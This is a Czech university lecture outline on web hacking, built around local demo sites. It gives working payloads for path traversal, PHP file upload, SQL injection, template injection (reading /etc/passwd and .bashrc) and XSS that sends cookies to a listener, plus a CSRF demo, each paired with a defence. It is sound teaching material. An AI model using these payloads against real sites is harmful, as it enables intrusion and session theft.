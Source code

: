 # Hackování webů

Osnova a příprava přednášky.

Příprava PHP prostředí:
```sh
sudo apt install php-fpm php-sqlite3
sudo cp etc/php-fpm-jirka.conf /etc/php/8.2/fpm/pool.d/
sudo systemctl restart php8.2-fpm.service

nginx -p $(pwd) -c etc/nginx.conf
```

Cleanup PHP prostředí:
```sh
sudo rm /etc/php/8.2/fpm/pool.d/php-fpm-jirka.conf
sudo systemctl restart php8.2-fpm.service
```

## Jak funguje web?

Budeme dělat celkem tři typy útoků:

1. Útok na web samotný = přesvědčit web, aby udělal něco, co chci)
2. Útok na uživatele = přesvědčit uživatele (nebo jeho prohlížeč :D), aby udělal, co chci
3. Útok mezi = odposlouchávat nebo narušovat komunikaci (MITM = Man-in-the-middle)

Abychom věděli, jak se dá útočit, musíme nejdřív pochopit základ webu:

- Protokol HTTP = HyperText Transfer Protocol
  - request a odpověď (metody requestu - GET/POST/...)
  - obsahuje hlavičky
  - podívejme se na nějaký (`curl -v https://smf.mff.cuni.cz/`)
- Je bezestavový = server každý request obsluhuje samostatně
  - Klient (browser) mu předá informace:
    - cesta (`index.php`) + argumenty cesty (`?akce=zprava`)
    - tělo requestu (tudy jdou POST argumenty)
    - hlavičky
      - takhle typicky funguje přihlášení - **Cookies**

Ukázka GET+POST formů: http://localhost:7000/

## Útoky na server

### 1. Neošetření uživatelského vstupu - cesty (PHP)

Ukázka:

* http://localhost:7001/
* http://localhost:7001/?stranka=kontakty
* http://localhost:7001/?stranka=../../db.conf
* http://localhost:7001/?stranka=../../../../../../../etc/passwd
* bonus: http://localhost:7001/?stranka=../index.php :D

Oprava:

* http://localhost:7001/index2.php
* http://localhost:7001/index2.php?stranka=../../db.conf
* http://localhost:7001/index2.php?stranka=../../../../../../../etc/passwd

### 2. Upload souboru (PHP)

* upload souborů je nebezpečný
  * formulář na upload obrázků do složky images/ (aby šly použít třeba v komentářích)
  * http://localhost:7002/
  * umožňuje ale i upload třeba souboru `02_upload/utok.php`
    * je to PHP soubor s příponou .php -> přistoupíme do http://localhost:7002/images/utok.php
    * ... a můžeme dělat cokoliv, co nám PHP povolí
* obrana:
  * kontrolovat důkladně soubory
  * nebo jim dokonce dávat generická jména
  * http://localhost:7002/index2.php

### 3. SQL injection (PHP)

* občas potřebujeme databázi, ukázka na http://localhost:7003/
  * jednoduchá aplikace - ukládám a získávám klíče

Můžeme zkusit poslat zajímavé payloady:
* https://xkcd.com/327/ :D

```sql
' OR 'a'='a`
" OR "a"="a`
```

Když chceme přidat něco dalšího (třeba LIMIT), lze využít trik s SQL komentářem
(za komentářem musí být mezera):

```sql
' OR 1 = 1 LIMIT 1 OFFSET 1; --
' OR 1 = 1 LIMIT 1 OFFSET 2; --
```

Jak se bránit? Escapovat!
* ideálně jazykové knihovny, ruční escapování je náchylné k tomu napsat správně
  a escapovat všechny speciální znaky
  * jak escapuje SQLite, víme to?
    * https://www.sqlite.org/lang_expr.html
    * zdvojuje `'`
    * lepší použít `SQLite3::escapeString` funkci
  * jak escapuje MySQL?
    * https://www.php.net/manual/en/security.database.sql-injection.php
    * escapuje pomocí `\`
    * lepší použít `mysqli_real_escape_string` funkci

* nebo lze použít předpřipravené SQL statementy a doplnit jako proměnné
* oboje viz index2.php

### 4. Template injection (Python)

* inspirace: TheCatch (CTF hra) https://thecatch.cz/
* potřeba spustit samostatně jako Python projekt:

```sh
cd 04_template_injection
python -m flask --app app run
# opravená verze:
python -m flask --app app2 run
```

Když navštívíme stránku, tak dostaneme hned přesměrování na URL
<http://127.0.0.1:5000/hello/user>, kde se nám zobrazí "Hello user". To svádí k
tomu napsat do URL něco jiného… a skutečně, když změníme poslední část na
cokoliv, tak se to vypíše.

Zkusme, jestli se tím nedá provést nějaký code injection do šablonovacího
systému. První bychom potřebovali zjistit, v jakém jazyce je web napsaný. Zkusme
nejdříve, jestli to není Python, třeba payloadem "+__file__+". Zobrazí se nám
"Hello /app/app.py", je to Python!

Nyní si můžeme zkoušet hrát. Zkusme si vypsat zdrojový kód souboru app.py
payloadem "+str(open(__file__).read())+" (odkaz). V tuto chvíli je dobré si
zobrazit HTML kód stránky, ať vidíme kód aspoň trochu formátovaný:

Vidíme, že je jedná o skutečně jednoduchou aplikaci napsanou v Pythonu pomocí
webového frameworku Flask. Pojďme tedy zkoumat systém:

* Vypsání `/etc/passwd`: `"+str(open('/etc/passwd').read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/etc/passwd%22).read())+%22)
* Vylistování `/home/smf`: `"+str(__import__("os").listdir("/home/smf"))+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(__import__(%22os%22).listdir(%22/home/smf%22))+%22)
* Přečtení `/home/smf/.bashrc`: `"+str(open("/home/smf/.bashrc").read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/home/smf/.bashrc%22).read())+%22)

**Jak to opravit?**

* odstranit `eval` :D (v tomhle případě)
* obecně nevěřit vstupu od uživatele - uživatelé se dělí na dva typy - hloupí uživatelé a útočníci

Teaser na další část (na XSS): http://127.0.0.1:5000/hello/%3Cscript%3Ealert(1)%3C/script%3E

## Útoky na uživatele

* umožněné špatnou implementací webu

https://medium.com/@dilarauluturhan/javascript-xss-cross-site-scripting-and-csrf-cross-site-request-forgery-6f0f4baa2fb1

### 5. XSS = Cross-site scripting (příklad: krádež cookie)

* vložíme zlý Javascript do komentáře na stránce http://localhost:7005/
  * stránka, kam lze psát příspěvky
  * může se přihlásit admin a příspěvky mazat
* použijeme druhý prohlížeč simulující útočníka:
  * nejprve vložíme `<script>alert(1)</script>` a otestujeme, že to otravuje všechny
  * admin to pak smaže a přidá třeba varování
  * my přidáme další příspěvek vytahující přes javascript jeho cookie

Útok:

1. Pustíme si `listener.py`
2. Vložíme příspěvek
   ```html
   <script>var i=new Image;i.src="http://127.0.0.1:8888/?"+document.cookie;</script>
   ```
3. Počkáme, než si admin zobrazí tuhle stránku a javascript nám nepošle request
4. Zkopírujeme si obsah PHPSESSID a voilá, jsme admin :D

https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md

### 6. CSRF

* nebudu útočit na web přímo, ale budu útočit přes uživatele
  * jiný uživatel (typicky administrátor) má výrazně větší práva
  * můžu ho donutit udělat něco, co nechce

* Jednoduchý web podobný příkladu v XSS, ale jenom přihlášený může přidávat příspěvky a lajkovat je: http://localhost:7006/

* přinutíme přihlášeného administrátora navštívit náš web:
  * http://localhost:7016/ -> rozcestník
  * http://localhost:7016/utok1.html -> přes obrázek (GET)
  * http://localhost:7016/utok2.html -> přes odeslání formu ve skrytém iframe (POST)

* Obrana: CSRF cookie:
  * cílem je zařídit, aby útočník nevěděl, co má poslat
  * do formu přidáme speciální klíč (CSRF token)
    * hodnota předaná v cookie
    * pokud není nasetována cookie, nasetujeme ji na random hodnotu


## Útoky MITM

* s HTTPS je těžké
* obecně povídání o certifikátech a certifikačních autoritách
  * Lets Encrypt

